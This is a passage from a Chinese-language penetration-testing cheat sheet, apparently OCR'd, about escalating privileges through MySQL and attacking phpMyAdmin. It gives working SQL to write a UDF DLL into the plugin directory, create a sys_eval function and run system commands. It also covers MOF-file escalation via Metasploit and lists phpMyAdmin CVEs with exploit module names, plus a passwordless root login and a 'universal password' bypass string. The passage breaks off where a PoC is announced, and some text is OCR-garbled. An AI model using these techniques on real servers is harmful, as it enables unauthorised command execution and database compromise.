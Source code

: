 - Mysql version > 5.1 时，dll 或者 so 必须位于 mysql 安装目录 lib\plugin 下，当对该目录具有写权限时可以利用，查看：
  `show variables like %plugin%；`// 查看插件目录
- 5.0 <= Mysql version <5.1 时，需要导出至目标服务器的系统目录，如 C://Windows/System32
- Mysql version < 5.0 时，目录可以自定义具体利用如下：

根据目标`mysql`版本写入特定目录的`so`或者`dll`，可以参考`sqlmap`里面的

```
select 'It is dll' into dumpfile 'C:\Program Files\MySQL\MySQL Server 5.1\l ib\plugin\lib_mysqludf_sys.dll';
```

创建对应的 function：

```
create function sys_eval returns string soname "lib_mysqludf_sys.dll";
```

执行命令：

```
select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数
select sys_eval('whoami'); #使用系统命令
```

### MOF 提权

通过`mysql`将文件写入一个`MOF`文件替换掉原有的`MOF`文件，然后系统每隔五秒就会执行一次上传的`MOF`。

一般适用于`Windows <= 2003`，并且`C:\Windows\System32\mof`目录具有写权限（一般是没有权限写）。

可以使用`MSF`直接利用：`exploit/windows/mysql/mysql_mof`

### 特殊版本 getshell

```
CVE-2013-3238
影响版本：3.5.x < 3.5.8.1 and 4.0.0 < 4.0.0-rc3 ANYUN.ORG
利用模块：exploit/multi/http/phpmyadminpregreplace
CVE-2012-5159
影响版本：phpMyAdmin v3.5.2.2
利用模块：exploit/multi/http/phpmyadmin3522_backdoor
CVE-2009-1151
PhpMyAdmin配置文件/config/config.inc.php存在命令执行
影响版本：2.11.x < 2.11.9.5 and 3.x < 3.1.3.1
利用模块：exploit/unix/webapp/phpmyadmin_config
弱口令&万能密码
弱口令：版本phpmyadmin2.11.9.2， 直接root用户登陆，无需密码
万能密码：版本2.11.3 / 2.11.4，用户名'localhost'@'@"则登录成功
```

## phpmyadmin 漏洞利用

`WooYun-2016-1994 33`：任意文件读取漏洞

影响 phpMyAdmin`2.x`版本，`poc`如下：
